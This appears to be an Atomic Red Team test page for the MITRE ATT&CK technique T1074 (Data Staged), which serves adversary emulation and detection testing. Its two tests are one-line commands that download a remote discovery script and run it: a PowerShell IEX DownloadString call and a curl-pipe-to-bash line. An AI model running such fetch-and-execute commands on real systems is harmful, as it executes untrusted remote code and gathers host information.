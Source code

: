 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat') > pi.log
```



<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


#### Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh | bash -s > /tmp/discovery.log
```



<br/>
